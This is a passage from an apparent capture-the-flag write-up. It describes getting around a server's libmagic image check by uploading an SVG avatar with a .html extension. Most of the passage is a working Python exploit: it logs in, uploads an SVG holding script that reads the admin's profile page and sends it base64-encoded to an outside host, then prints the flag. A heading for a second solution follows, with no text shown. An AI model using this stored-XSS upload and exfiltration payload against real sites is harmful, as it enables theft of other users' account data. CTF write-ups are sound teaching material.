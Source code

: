 ```
image/x-xpmi
```

It seems that the server uses [libmagic](https://github.com/threatstack/libmagic/blob/1249b5cd02c3b6fb9b917d16c76bc76c862932b6/magic/Magdir/images#L298-L300) to determine if it's a valid image. It's too difficult to bypass the server check and also make CloudFlare fail to detect the filetype.

After I stuck here for several hours, I wonder what if I can trigger XSS but the content-type is still an image? The SVG is a great medium since it's basically a XML. After googling I found this [PoC of SVG-based XSS](http://xss.cx/xss.svg). The rest is starightforward.

My exploit (thie file extension doesn't matter):

```python
#!/usr/bin/env python3
import requests, glob
import secrets
s = requests.session()
r = s.post('http://web50.zajebistyc.tf/login', data=dict(login='laiph6Ieroh4iema',password='laiph6Ieroh4iema'))
filename = secrets.token_urlsafe(16) + '.html'
payload = '''<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 100 100" enable-background="new 0 0 100 100" xml:space="preserve">  
   <script>
      fetch("http://web50.zajebistyc.tf/profile/admin").then(r => r.text()).then(t => fetch("//example.com/"+btoa(t)));
   </script>
<image id="image0" width="100" height="100" x="0" y="0"
    href="" />
</svg>
'''
files = {
    'avatar': (filename, payload)
}
r = s.post('http://web50.zajebistyc.tf/profile/laiph6Ieroh4iema', files=files)
if 'not a valid image' in r.text[:150]:
    print(r.text)
if 'sorry, we only accept 100x100 images' in r.text[:150]:
    print(r.text)
url = 'http://web50.zajebistyc.tf/avatar/62eee5152305547ff387eef08af028d340611ce15db259aeb714f6518328885b/'+filename
print(url)
r = s.get(url)
print(r.headers['Content-Type'])

# p4{15_1t_1m4g3_or_n0t?}
```

#### Solution 2: Cache Poisoning
